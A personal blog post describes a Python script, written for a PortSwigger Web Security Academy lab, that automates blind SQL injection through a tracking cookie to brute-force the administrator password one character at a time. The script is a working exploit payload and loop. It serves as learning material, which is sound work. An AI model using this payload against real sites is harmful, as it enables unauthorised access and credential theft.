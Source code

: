 ```yaml
---
layout: post
current: post
cover: 'assets/images/websecacademy/blindsql/cover.jpeg'
navigation: True
title: "Blind SQL injection with conditional responses script"
date: 2021-01-02 00:00:00
tags: [websecurityacademy, sqli, python]
class: post-template
subclass: 'post'
author: darryn
---
```

![blindsql](/assets/images/websecacademy/blindsql/cover.jpeg)

### Overview

This post is to provide the script I created to automate the process of using blind SQL injection with conditional responses to brute force a password. This was completed for a lab while completing the SQL Injection topic on [WebSecurity Academy](https://portswigger.net/web-security). I can't recommend this training enough, the content is well written and the labs are great and best of all its free!

As part of the lab I completed the process 3 ways, manually using Burp repeater, using Burp intruder and finally by writing this Python script. I am still learning Python and this was a good exercise to do more Python coding and also reenforce the learning. 

### Final Script

```highlight
# 02/01/21
# blind-sql-lab.py
# https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
# POC script to automate getting the administrator password using blind sql conditional responses

import requests
import string

url = "" # Insert URL here!

cookievalue = ""
password = ""

cookies = {'TrackingId':cookievalue}

characters = list(string.ascii_lowercase)
characters = characters + list(string.digits)

for i in range(1,21):
    for char in characters:
        cookievalue = "x'+UNION SELECT+'a' FROM users WHERE username='administrator' AND substring(password,{},1)='{}'--".format(i,char)
        cookies = {'TrackingId':cookievalue}
        r = requests.get(url, cookies=cookies)
        response = r.text
        if "Welcome back!" in response:
            print(char)
            password = password + char
            
print("Password is: " + password)
```

### Next Steps

The script could be a lot better, for example:

- Initial check to test the website is up
- Run a test conditional check to test for SQL injection
- Automate the process of finding the password length and pass to the range function

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

